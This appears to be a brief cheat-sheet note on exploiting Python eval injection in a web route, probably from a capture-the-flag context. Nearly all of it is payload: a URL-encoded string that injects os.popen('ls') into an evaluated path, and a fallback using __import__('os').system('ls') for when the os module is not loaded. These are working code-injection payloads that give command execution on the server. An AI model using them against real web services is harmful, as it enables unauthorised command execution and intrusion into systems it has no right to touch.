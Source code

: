 ### Eval used?:
`/hello/"%2bos.popen('ls').read()%2b"`
_what if there is no system module??_ We IMPORT it :D **__import__('os').system('ls')**
